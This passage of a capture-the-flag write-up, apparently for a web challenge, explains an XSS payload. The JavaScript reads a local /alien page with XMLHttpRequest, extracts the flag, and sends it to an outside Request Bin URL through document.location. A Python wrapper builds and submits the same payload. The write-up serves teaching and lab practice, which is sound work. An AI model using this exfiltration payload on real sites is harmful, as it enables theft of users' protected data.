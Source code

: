 We know the flag is stored on the `/alien` page and since it is local, we can use `XMLHttpRequest` to grab the flag from it and then send it back to us via `document.location`. These are the steps we need to perform to get the flag:

- **Step 1:** Prepare a GET request
- **Step 2:** Send the GET request
- **Step 3:** Get the GET response body
- **Step 4:** Extract the flag out of the GET response
- **Step 5:** Send the flag back to us

When we get the response body, we will need to grab the flag from the HTML source. Sadly, the bot's browser doesn't seem to support `XMLHttpRequest.responseType = "document"`, which would have let us get the flag by its HTML element, so we'll need to grab a substring of the response text. We can use JavaScript's built-in `search` function to find the index of `CHTB{` (the flag format) for the first end of the substring range and then take the index+1 of the first `}` we see right after it as the other end of the substring range:

```javascript
xmlHttp.responseText.substring((xmlHttp.responseText).search(\\"CHTB{\\"),(xmlHttp.responseText).search(\\"}\\")+1)
```

Altogether, this is all the JavaScript we'll need to get the flag out:

```javascript
// Making a new requst object
var xmlHttp = new XMLHttpRequest();
// Setting the HTTP method and URL
xmlHttp.open("GET","/alien",false);
// Sending the GET request
xmlHttp.send();
// Extracting the flag from the response body
let flag = xmlHttp.responseText.substring((xmlHttp.responseText).search(\\"CHTB{\\"),(xmlHttp.responseText).search(\\"}\\")+1);
// Sending the flag to our Request Bin
document.location="https://requestbin.io/123456?" + flag
```

We can implement all these steps with a Python function as such:

```python
def get_flag(request_bin):
    # Prepare the payload to send a GET request
    xml_http_request = 'var xmlHttp = new XMLHttpRequest();xmlHttp.open(\\"GET\\",\\"/alien\\",false);xmlHttp.send();'

    # Extracting the flag
    xml_http_flag = 'let flag = xmlHttp.responseText.substring((xmlHttp.responseText).search(\\"CHTB{\\"),(xmlHttp.responseText).search(\\"}\\")+1);'
    
    # Crafting the exfiltration url
    exfil_request = xml_http_flag + 'document.location=\\"' + request_bin + '\\" + flag'

    # Submitting the payload
    execute_xss(xml_http_request + exfil_request)
```

